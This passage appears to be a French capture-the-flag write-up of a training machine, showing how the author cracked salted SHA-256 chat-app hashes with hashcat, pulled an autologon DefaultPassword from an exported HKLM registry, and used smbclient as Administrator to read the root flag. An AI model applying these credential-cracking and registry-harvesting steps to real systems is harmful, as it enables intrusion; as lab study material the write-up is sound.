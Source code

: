 On en apprend plus sur ce hash dans *internal-01\simple\_chat\includes\validation\_func.php* :  

```php
	$salt = '8h@tr-waswe_aT#9TaCHuPhU'; //for security reasons please replace this string with your own random string (before attempt to register any user)
	return hash('sha256', $passwd.$salt); //return sha256 hash of the salted password
```

On peut alors stocker les hashs dans un fichier :  

```plain
faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3:8h@tr-waswe_aT#9TaCHuPhU
e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc:8h@tr-waswe_aT#9TaCHuPhU
f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801:8h@tr-waswe_aT#9TaCHuPhU
```

Que l'on passera à hashcat (*hashcat --force -m 1410 -a 3 /tmp/hashes.txt /usr/share/ncrack/top50000.pwd*). Malheureusement on n'en tirera que les mots de passe *potter* et *Password1* :')  

Notez que *Password1* semble être le mot de passe Windows de *h.potter* mais ce dernier est expiré (NT\_SATUS\_PASSWORD\_EXPIRED) et je n'ai pas réussi à le changer...  

halfluke les bons tuyaux ;-)
----------------------------

Sans trop d'idées sur la méthode à employer pour élever mes privilèges j'ai demandé conseil à *halfluke* (un autre participant) qui m'a conseillé de jeter un œil au registre.  

Au lieu de passer du temps à fouiller en direct j'ai fait un gros *reg export* de HKLM. Le fichier texte obtenu est en UTF-16 Windows, il est préférable de le convertir en UTF-8 avec iconv avant lecture :)  

On trouve ainsi une entrée intéressante avec un bon vieux grep sur password :  

```plain
"DefaultPassword"="3130438f31186fbaf962f407711faddb"
```

Ce mot de passe est à utiliser tel quel (ce n'est pas un hash). On peut alors utiliser smbclient (après mise en place d'une redirection de port) pour accéder aux deux flags du système :  

```bash
devloop@kali:~$ smbclient -I 127.0.0.1 -U Administrator '//BART/c$'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Administrator's password:
Try "help" to get a list of possible commands.
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Sun Feb 11 13:51:05 2018
  ..                                 DR        0  Sun Feb 11 13:51:05 2018
  desktop.ini                       AHS      282  Mon Oct  2 14:08:15 2017
  root.txt                            A       32  Sun Feb 11 13:51:08 2018

        8260095 blocks of size 4096. 3572800 blocks available
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Gigateuf Wayne !

*Published July 15 2018 at 09:32*
